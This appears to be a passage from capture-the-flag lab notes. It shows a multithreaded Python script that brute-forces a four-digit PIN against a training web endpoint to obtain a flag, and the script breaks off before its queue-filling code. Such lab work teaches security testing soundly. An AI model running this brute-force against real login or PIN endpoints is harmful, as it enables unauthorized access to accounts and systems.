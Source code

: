 The script's output will show the progression of the brute-force attack, displaying each attempted PIN and its corresponding result. The final output will reveal the correct PIN and the captured flag, demonstrating the successful completion of the brute-force attack.

# Question
---

![Pasted image 20250213134207.png](../../../../IMAGES/Pasted%20image%2020250213134207.png)

Let's use the python script provided to us, let's modify it a bit for it to run faster:

```python
import requests
import threading
from queue import Queue

ip = "94.237.54.164"
port = 35008
NUM_THREADS = 20 # Adjust this based on your network capacity

# Shared resources
pin_queue = Queue()
found_event = threading.Event()
print_lock = threading.Lock()

def worker():
 while not found_event.is_set():
 try:
 pin = pin_queue.get_nowait()
 except:
 break

 formatted_pin = f"{pin:04d}"
 
 # Only print every 100 attempts to reduce output noise
 if pin % 100 == 0:
 with print_lock:
 print(f"Testing PIN: {formatted_pin}")

 try:
 response = requests.get(
 f"http://{ip}:{port}/pin?pin={formatted_pin}",
 timeout=5 # Add timeout to prevent hanging
 )
 
 if response.ok and 'flag' in response.json():
 with print_lock:
 print(f"\n[+] Correct PIN found: {formatted_pin}")
 print(f"[+] Flag: {response.json()['flag']}")
 found_event.set()
 break

 except Exception as e:
 pass # Handle any request errors silently
 
 pin_queue.task_done()

# Fill the queue with all possible PINs
```